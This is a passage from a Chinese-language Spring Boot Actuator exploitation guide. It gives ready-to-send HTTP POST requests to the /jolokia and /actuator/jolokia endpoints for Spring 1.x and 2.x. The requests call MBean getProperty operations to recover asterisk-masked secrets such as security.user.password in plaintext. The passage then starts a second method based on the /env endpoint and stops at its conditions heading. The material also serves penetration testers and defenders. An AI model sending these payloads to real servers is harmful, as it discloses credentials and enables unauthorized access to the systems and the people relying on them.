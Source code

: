 将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。



- 调用 `org.springframework.boot` Mbean（**可能更通用**）

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```



- 调用 `org.springframework.cloud.context.environment` Mbean（**需要 spring cloud 相关依赖**）


> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```



### 0x04：获取被星号脱敏的密码的明文 (方法二)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：
